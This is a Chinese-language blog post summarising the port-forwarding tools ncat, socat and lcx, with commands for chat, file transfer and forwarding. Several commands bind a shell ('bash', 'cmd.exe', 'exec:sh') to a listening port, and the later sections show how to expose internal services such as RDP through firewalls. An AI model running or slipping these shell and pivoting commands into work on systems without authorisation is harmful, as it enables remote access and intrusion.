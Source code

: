 ```yaml
---
date: "2017-07-31T00:00:00Z"
description: 介绍几款端口转发工具
title: 端口转发工具小结
url: /archivers/2017-07-31/1
---
```



## 0X00 ncat

### 反弹shell

服务器：`ncat -lnv -c bash 4489`  将bash转发到4489端口

客户端：`ncat -nv 172.17.0.1 4489` 连接到目标的4489即可获得交互式bash

Windows下用 `-c C:\windows\system32\cmd.exe`

参数介绍：

|`-l,--listen <port>` | 监听某个端口
| `-n, --nodns`　     |不通过DNS解析主机名
| `-v,--verbose`      |设置的详细程度(可以使用几次)
| `-c,--sh-exec`      | 执行传递的命令行

### 建立聊天室

服务端：`ncat -lnv --broker --chat 8432`

客户端：`ncat -nv 172.17.0.1 8432`

参数介绍：

| `--broker` | 使用ncat的代理连接模式，允许多个组织连接到ncat的服务器和其他人交流，ncat能创建一个经纪人在连接和系统之间通过NAT或者其他的直接连接。这个选项是和监听模式一起使用的。这会使监听端口的经纪人模式启动
| `--chat`   |　开启一个简单的ncat聊天服务器

### 采用SSL加密

* 服务器：`ncat -lnv -c bash 4489 --ssl`
* 客户端：`ncat -nv 172.17.0.1 4489 --ssl`

### 传输文件

服务端：
```
root@Kali:~$ ncat -lnv 1788 > tmp.txt
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::1788
Ncat: Listening on 0.0.0.0:1788
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:48004.
```

客户端：
```
root@504d96ae69cc:/docker_files# cat tmp.txt 
hello :)
root@504d96ae69cc:/docker_files# ncat -nv 172.17.0.1 1788 < tmp.txt 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 172.17.0.1:1788.
Ncat: 9 bytes sent, 0 bytes received in 0.01 seconds.
root@504d96ae69cc:/docker_files# 
```


### 参数列表(中文)

[ncat参数](/tools/ncat.txt)

## 0x01 socat

### 安装

```bash
wget http://www.dest-unreach.org/socat/download/socat-2.0.0-b9.tar.gz
tar xvf socat-2.0.0-b9.tar.gz
cd socat-2.0.0-b9
./configure
make
make install
```


### 建立通信(聊天室)

| 服务端 | `socat - tcp4-listen:4444`
| 客户端 | `socat tcp:SERVER_IP:4444`

### 传输文件

| 服务端 | `socat tcp4-listen:4444 open:data.txt,creat,append` |
| 客户端 | `cat test.txt | socat - tcp:SERVER_IP:4444` |

> 传输二进制文件需要将append改成binary

### 反弹Shell

| 服务端 | `socat tcp-l:4444 exec:sh,pty,stderr`
| 客户端 | `socat - tcp:SERVER_IP:4444`
| tcp-l 是 `tcp4-listen` 的简写

### 端口转发

`socat - tcp-l:8888,fork tcp4:192.168.3.1:4477`

当本机接收到8888端口的数据，将全部转发给192.168.3.1主机上的4477端口

### UDP通信

| 服务端 | `socat - udp-l:4456` |
| 客户端 | `socat - udp-datagram:192.168.3.1:4456`
| 

### 公网转发到内网

| 服务端 | `socat tcp-listen:1234 tcp-listen:22` | 外网IP(`60.*.*.*`)
| 客户端 | `socat tcp:60.*.*.*:1234 tcp:192.168.3.1:22` | 内网IP(192.168.3.1)

### 内网转发到公网

```
                  ------------
                 |   Server   |
                 |  60.*.*.*  |
                  ------------
                 /            \
          {|<Firewall>|}    {|<Firewall>|}
                |                 |
          --------------      ----------------        
         | (192.168.3.1)|     | (192.168.3.2) |
          --------------      ----------------
       (hosting a service    (wanting to access
         on port 4200)         Client A port 4200)
```

| 服务端 | `socat - tcp-l:10000 tcp-l:4200`
| 客户端 | `socat tcp4:60.*.*.*:10000 tcp4:localhost:4200`

### 参考文档

[socat使用手册](/tools/socat)

## 0x02 lcx（go语言编写）

被控端192.168.10.2 ：

lcx <公网IP> 123

控制端 111.111.111.111：

lcx 456 123 192.168.10.2 3389

此时访问111.111.111.111的456就等于192.168.10.2:3389

[Download](http://www.secpulse.com/wp-content/uploads/2015/05/lcx._g.rar)
[相关文章](https://www.secpulse.com/archives/6341.html)




